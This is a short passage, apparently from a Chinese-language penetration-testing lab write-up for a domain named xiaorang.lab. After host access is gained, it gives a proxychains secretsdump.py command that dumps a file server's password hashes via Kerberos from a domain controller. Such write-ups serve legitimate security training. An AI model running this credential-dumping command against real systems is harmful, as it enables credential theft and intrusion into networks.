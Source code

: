 [![](assets/1706846898-bc983ef12db6ae95181c00efbd56acfa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214215-8b2e891e-c03e-1.png)

## 信息搜集

获取主机权限后，抓一下`FILESERVER`的哈希

```plain
proxychains secretsdump.py -k -no-pass FILESERVER.xiaorang.lab -dc-ip 172.22.60.8
```
